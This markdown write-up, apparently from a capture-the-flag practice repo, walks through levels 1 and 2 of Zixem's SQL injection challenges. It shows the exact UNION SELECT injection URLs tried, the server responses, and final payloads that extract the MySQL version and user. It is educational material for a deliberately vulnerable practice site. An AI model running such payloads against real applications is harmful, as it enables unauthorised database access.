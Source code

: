 # Rules!
- Use only **UNION** BASED!
- Your mission is to select only the **version()** & **user()**.
- **Have Fun** (:

# Reference Table:
- [Level 1](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-1)
- [Level 2](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-2)
- [Level 3](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-3)
- [Level 4](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-4)
- [Level 5](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-5)
- [Level 6](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-6)
- [Level 7](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-7)
- [Level 8](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-8)
- [Level 9](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-9)

  ===========================================================================================================  

## [Level 1](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-1)
Start: `[https://zixem.altervista.org/SQLi/level1.php?id=1](https://zixem.altervista.org/SQLi/level1.php?id=1)`  
> - **Item ID:** 1
> - **Price:** 20$

=> I guess the Query can be:  
`SELECT * FROM <db> WHERE id=1`  
=> We should add `UNION SELECT 1,2;--`  
`https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2;--`
> - The used SELECT statements have a different number of columns **Item ID:**
> - **Price:** $

=> So it doesn't have 2 columns, let's try again with more to see if the error still exist.  
`https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2,3;--`
> - **Item ID:** 1
> - **Price:** 20$

=> But the Data is not shown in the result. It is caused of the "id=1" data came before our data, let's **invalidate** it first.  
`https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%201,2,3;--`
> - **Item ID:** 2
> - **Price:** 1$

Ok let's extract *version()* and *user()*:  
##### Result: #####  
`https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%20version(),user(),3;--`
> - **Item ID:** zixem@localhost
> - **Price:** 5.6.33-log$

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#reference-table) ######

  ===========================================================================================================  

## [Level 2](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-2)
Start: `[https://zixem.altervista.org/SQLi/level2.php?showprofile=4](https://zixem.altervista.org/SQLi/level2.php?showprofile=4)`  
> **User-ID:** 4
> **Username:** ZiX-M
> **Age:** 17

=> Test with prev payload:  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%20UNION%20SELECT%201,2,3,4--`
> Nothing to show.

=> It shows nothing. That means it can be take string instead of integer, so we have to add `'` into our payload:  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%201,2,3--`
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1

=> OK, so we have problem with `apostrophe (')`  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%201,2,3--%27`
> The used SELECT statements have a different number of columns

=> It is ok now, but we have select wrong number of columns:  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%201,2,3,4--%27`
> **User-ID:** 1
> **Username:** 2
> **Age:** 3

=> It is Done. Let's grep the *version()* & *user()*:  
##### Result: #####  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%20version(),user(),3,4--%27`
> **User-ID:** 5.6.33-log
> **Username:** zixem@localhost
> **Age:** 3

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#reference-table) ######

